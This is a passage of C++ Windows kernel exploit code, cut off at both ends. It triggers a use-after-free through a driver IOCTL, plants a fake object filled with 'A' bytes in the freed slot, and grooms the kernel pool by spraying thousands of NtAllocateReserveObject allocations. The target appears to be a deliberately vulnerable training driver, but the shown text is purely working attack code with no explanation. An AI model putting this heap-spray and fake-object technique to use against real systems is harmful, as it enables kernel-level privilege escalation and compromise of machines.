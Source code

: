 ```cpp
    }
    cout << "[>] UAF object freed.\n";
}

void allocate_fake_object(HANDLE hFile) {

    cout << "[>] Creating fake UAF object...\n";
    BYTE input_buffer[0x58] = { 0 };

    memset((void*)input_buffer, '\x41', 0x58);

    DWORD bytes_ret = 0x0;

    int result = DeviceIoControl(hFile,
        FAKE_OBJECT_IOCTL,
        input_buffer,
        sizeof(input_buffer),
        NULL,
        0,
        &bytes_ret,
        NULL);

    if (!result) {

        cout << "[!] Could not create fake UAF object\n";
        cout << "[!] Last error: " << dec << GetLastError() << "\n";
        exit(1);
    }
    cout << "[>] Fake UAF object created.\n";
}

void spray() {

    // thanks Tekwizz as usual
    _NtAllocateReserveObject NtAllocateReserveObject = 
        (_NtAllocateReserveObject)GetProcAddress(GetModuleHandleA("ntdll.dll"),
            "NtAllocateReserveObject");

    if (!NtAllocateReserveObject) {

        cout << "[!] Failed to get the address of NtAllocateReserve.\n";
        cout << "[!] Last error " << GetLastError() << "\n";
        exit(1);
    }

    cout << "[>] Spraying pool to defragment...\n";
    for (int i = 0; i < 10000; i++) {

        HANDLE hObject = 0x0;

        PHANDLE result = (PHANDLE)NtAllocateReserveObject((PHANDLE)&hObject,
            NULL,
            1); // specifies the correct object

        if (result != 0) {
            cout << "[!] Error allocating IoCo Object during defragmentation\n";
            exit(1);
        }
        defrag_handles.push_back(hObject);
    }
    cout << "[>] Defragmentation spray complete.\n";
    cout << "[>] Spraying sequential allocations...\n";
    for (int i = 0; i < 30000; i++) {
```
